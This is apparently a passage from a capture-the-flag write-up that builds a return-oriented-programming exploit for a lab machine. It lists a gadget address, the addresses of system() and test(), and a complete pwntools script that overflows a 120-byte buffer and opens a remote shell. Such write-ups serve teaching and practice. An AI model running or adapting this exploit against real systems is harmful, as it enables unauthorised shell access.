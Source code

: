 
This looks like a good candidate:
```
0x0000000000401206: pop r13; pop r14; pop r15; ret;
```

The ROP gadget is at 0x401206


We have all the info we need to write a simple exploit.

<hr width="250" size="6">



The system call is at 0x401040

The test function call is at 0x401152

The ROP gadget is at 0x401206

We don't need r14 or r15, so fill them with Bs and Cs

We need to put our shell invocation (/bin/bash\x00) in the rpb to be moved to the rdi register via the test() function;
so we need to amend the buffer to include the command.

<hr width="250" size="6">


Here's the exploit:


```python

#/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")

shell = "/bin/sh\x00"
buf = "A" * (120 - len(shell))
system = p64(0x401040)
pop_r13 = p64(0x401206)
r14 = "B" * 8
r15 = "C" * 8
test = p64(0x401152)

payload = buf + shell + pop_r13 + system + r14 + r15 + test

p = remote("10.10.10.147", 1337)
p.recvline()
p.sendline(payload)
p.interactive()

```



<hr width="250" size="6">
